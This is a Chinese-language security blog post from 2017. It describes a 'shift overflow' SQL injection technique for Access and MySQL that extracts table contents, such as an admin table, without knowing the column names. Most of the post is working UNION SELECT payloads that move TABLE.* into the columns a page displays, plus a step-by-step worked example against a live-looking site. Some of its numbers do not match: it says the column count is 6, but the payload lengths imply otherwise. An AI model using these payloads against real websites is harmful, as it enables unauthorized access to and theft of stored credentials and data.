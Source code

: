 ```yaml
---
layout: post
author: Vulkey_Chen
title: "移位溢注：告别依靠人品的偏移注入"
date: 2017-03-08
permalink: /archives/2017-03-08/1
description: "本文中我们研究了一种新的注入技术让“偏移注入不在需要人品”。在这里定义这种注入技术为：“移位溢注技术”。"
---
```


## **介绍**：

在Access数据库类型注入的时候，我们获取不到列名(前提是有表名)，一般会选择使用偏移注入，但是这种注入方式往往借助的是个人的人品，且步骤繁琐。本文中我们研究了一种新的注入技术让“偏移注入不在需要人品”。在这里定义这种注入技术为：“移位溢注技术”。
它适用于ACCESS和MYSQL（任何版本）


## **正文：**

我们先来看看普通的偏移注入步骤：

```
1.判断注入点
2.order by 判断长度
3.判断表名
4.联合查询
5.获取表中列数：**union select 1,2,3,4,..,\* from TABLE**
6.开始偏移注入：**TABLE as a inner join TABLE as b ona.id=b.id**
```

由于步骤6的方法过于需要人品值，且语句繁琐，因此在这里，我们研究新的注入技术：

首先来看看步骤6语句的整体意思：

步骤6的语句，**表示给TALBE取2个别名，然后分别用别名取查询TALBE的内容（表a和表b）；而on a.id = b.id 这样的条件是为了满足语法需求，实际并没有作用，因为相同内容的表，相同字段内容一定相同。**

这时，我们再回过头来看步骤5：

**由于联合查询中select后面添加数字的目的是为了让联合查询返回接结果和网站正常查询返回的结果的列数一致（不一致数据库会报错，页面无法显示），且\*表示通配符，可以表示整个表格所有列；因此这里通过数字来占位，并使用\*来替代TABLE中的所有列，使得联合查询可以完成，并推算出\*的值。**

这时候我们继续研究偏移注入的整体公式方法，发现即使使用多级偏移注入也需要一定的概率(人品值)才可以得到想要的结果，所以我们就尝试研究新的方法能不能替换这种不固定概率的方法。

现在我们重新整理一下SQL语句，从联合查询开始：

1.原union语句：**union select 1,2,3,..,p..,n from TABLE**

（p=页面爆出的数字，可能有多个p1,p2..；n=原网站查询的总列数；TALBE=我们获得的表名；下面开始就使用上述字母的定义）

2.新语句：

**union select 1,2,3,..,p-1,TABLE.\*,p+k,..,nfrom TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第一个字段的内容（其他位置还可能爆出更多内容）

（这里如果存在已知字段名可以使用，没有就不用，一般id这个字段时存在的，可以使用id = 1来显示第一行）

**union select1,2,3,..,p-2,TABLE.\*,p+k-1,..,n from TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第二个字段的内容（其他位置还可能爆出更多内容）

**union select 1,2,3,..,p-3,TABLE.\*,p+k-2,..,nfrom TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第三个字段的内容（其他位置还可能爆出更多内容）

注：这里一定是TALBE.*而不是*

3.1 **以此类推可以爆出TALBE的每一列内容。**

3.2 **如果p<k则没法爆出p+1列至k列的内容，如果n-p<k则无法爆出第1列至k-(n-p)列**。

## **原理：**

1.由原语句：**union select 1,2,3,..,p..,n-k,\* from TABLE** 可以得出该联合查询的目的是构造和原网站相同列数的查询结构，使得页面上可以显示对应的数字；这条语句相当于是做了两次查询并将它们的结果合并，第一次做了**select 1,2,3,..,n-k from TALBE** ，第二次做了**select \* from TALBE** ，然后将它们的结果合并。

这可以参考mysql的语句：**select 1,2,3,4,5,admin.\* from admin;**

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x00.jpg)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x01.jpg)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x02.jpg)

2.只要满足原理1的要求，保障联合查询的结果和原网站查询的结果列数一致即可；因此可以将TALBE.*向前移动至页面显示的数字处来爆出TALBE列中的内容。

这可以参考mysql的语句：

```mysql
select 1,2,3,4,5,6,7,8,9,10 from newswhere id =1 union select 1,2,3,4,5,6,7,admin.* from admin;
select 1,2,3,4,5,6,7,8,9,10 from newswhere id =1 union select 1,2,3,admin.*,7,8,9,10 from admin;
```

**注：假设数字4、5在页面显示。**

由下图可知，其实数据已近查询出来，但是页面没有显示，这个是通过平移查询结果到页面显示的数字上去，即可爆出敏感字段。

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x03.jpg)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x04.jpg)

## **例子：**

**步骤1：**判断注入点是否存在

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x05.jpg)

步骤2：

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x06.jpg)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x07.jpg)

**步骤3：**获得表名(必备条件)   and exists(select * from admin)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x08.jpg)

**步骤4：**获取不了列名（当尝试多个常用字段名以后，最终还是发现无法获得字段名）

**步骤5：**使用联合查询(union select)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x09.jpg)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x010.jpg)

步骤6：使用新注入技术方法

（1）获取admin表的列数：

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,*from admin #--返回错误页面

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,*from admin #--返回错误页面

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,*from admin #--返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,*from admin #--返回错误页面
.....

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,*from admin #--返回步骤5页面，因此admin表的列数为6
```

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x011.jpg)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x012.jpg)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x013.jpg)

（2）由于网页中包含连续数字，表示可以显示连续的查询结果，构造SQL语句查询前四列第一行。

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35from admin
```

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x014.jpg)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x015.jpg)

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35from admin where id = 3
```

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-08/0x016.jpg)

## **总结**

在这里我们命名这种新注入技术为"移位溢注"。由此如果MYSQL小于5.0的情况下所具备的条件和ACCESS一样，也可以使用此方法注入，如果是MYSQL大于5.0的版本，使用此方法可以省去获得列名的步骤。

**文章研究：**米斯特安全攻防实验室 MST.Lab-gh0stkey & Seagull
